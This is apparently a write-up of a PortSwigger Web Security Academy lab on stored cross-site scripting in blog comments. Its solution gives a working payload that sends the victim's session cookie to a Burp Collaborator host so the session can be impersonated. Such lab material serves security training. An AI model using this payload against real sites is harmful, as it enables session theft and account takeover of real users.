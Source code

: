 Exploiting cross-site scripting to steal cookies

----

### Lab Description

- This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

> To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server. Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the cookie.

#### Lab Solution

- Insert at the comment the following payload:

`<video><source onerror=location=/\collaboratorserver.oastify.com/+document.cookie>`

![](/static/img/Pasted_image_20230614142551.png)

